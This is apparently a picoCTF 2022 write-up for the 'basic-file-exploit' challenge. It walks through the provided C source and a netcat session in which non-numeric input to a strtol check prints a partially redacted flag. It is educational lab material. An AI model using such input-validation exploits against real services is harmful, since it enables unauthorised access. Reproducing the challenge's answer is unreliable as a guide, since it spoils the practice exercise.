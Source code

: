 ```yaml
---
title: "pico22/pwn: basic-file-exploit"
date: 2022-04-05 12:16:07
categories:
- ctfs
- pico22
- pwn
tags:
- pwn
description: "Learn how to pass unexpected datatypes into ELF binaries to break the code! This is my writeup for the picoCTF 2022 binary/pwn challenge \"basic-file-exploit\"."
permalink: ctfs/pico22/pwn/basic-file-exploit/
thumbnail: /asset/banner/banner-basic-file-exploit.png
---
```


<style>
    .box {
        border: 1px solid rgb(23, 25, 27);
        border-radius: 5px;
        background-color: rgb(23, 25, 27);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
        margin-top: 1rem;
        margin-bottom: 1rem;
    }
</style>

<p class="box">
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!<br>Connect to the program with netcat: <code>$ nc saturn.picoctf.net 50366</code><br>
The program's source code with the flag redacted can be downloaded  <a href="/asset/pico/program-redacted.c">here</a>.</p>

Let's run that `nc` command to see what's going on:

<figure class="highlight console">
  <table>
    <tr>
      <td class="code">
        <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">nc saturn.picoctf.net 50366</span></span><br><span class="line">Hi, welcome to my echo chamber!</span><br><span class="line">Type &#x27;1&#x27; to enter a phrase into our database</span><br><span class="line">Type &#x27;2&#x27; to echo a phrase in our database</span><br><span class="line">Type &#x27;3&#x27; to exit the program</span><br></pre>
      </td>
    </tr>
  </table>
</figure>

Since this is binary exploitation, we're probably looking for something that the user can input which breaks the code.
To see what we can break, open `program-redacted.c` with `nano`:

<figure class="highlight console">
  <table>
    <tr>
      <td class="code">
        <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">nano program-redacted.c</span></span><br></pre>
      </td>
    </tr>
  </table>
</figure>

Let's look for the flag:

```c
static const char* flag = "[REDACTED]";
```

Well, that doesn't help. We'll keep searching to see what prints this `const` to figure out how to trigger it on the serverside:

```c
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }
```

Here, the flag is going to be printed if a specific condition is met. Google defines `strtol()` as a function that "converts the initial part of the string in **str** to a **long int** value according to the given **base**". To break it, we need to input something that is **unconvertible into a long integer**. In this case, it would be letters! This statement is within the `static void data_read()` function. Let's see where it's called:

```c
 } else if (command == 2) {
      if (inputs == 0) {
        puts("No data yet");
        continue;
      }
      data_read();
      puts("Read successful, would you like to do anything else?");
```

We should be pressing the command `2` to read from the stored data (once we write it with the `1` command). Once it prompts us with "Read successful..." we should input letters to break it. Let's head back to the `netcat` and test it out:

<figure class="highlight console">
  <table>
    <tr>
      <td class="code">
        <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">nc saturn.picoctf.net 50366</span></span><br><span class="line">Hi, welcome to my echo chamber!</span><br><span class="line">Type &#x27;1&#x27; to enter a phrase into our database</span><br><span class="line">Type &#x27;2&#x27; to echo a phrase in our database</span><br><span class="line">Type &#x27;3&#x27; to exit the program</span><br><span class="line">1</span><br><span class="line">1</span><br><span class="line">Please enter your data:</span><br><span class="line">hello</span><br><span class="line">hello</span><br><span class="line">Please enter the length of your data:</span><br><span class="line">5</span><br><span class="line">5</span><br><span class="line">Your entry number is: 1</span><br><span class="line">Write successful, would you like to do anything else?</span><br><span class="line">2</span><br><span class="line">2</span><br><span class="line">Please enter the entry number of your data:</span><br><span class="line">&quot;NO!&quot;</span><br><span class="line">&quot;NO!&quot;</span><br><span class="line">picoCTF&#123;M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_<span style="color:#696969"><b>[REDACTED]</b></span>&#125;</span><br></pre>
      </td>
    </tr>
  </table>
</figure>


<a href="https://info.flagcounter.com/8Xkk"><img src="https://s01.flagcounter.com/count2/8Xkk/bg_212326/txt_C9CACC/border_C9CACC/columns_3/maxflags_12/viewers_3/labels_0/pageviews_1/flags_1/percent_0/" alt="Free counters!" border="0"></a>
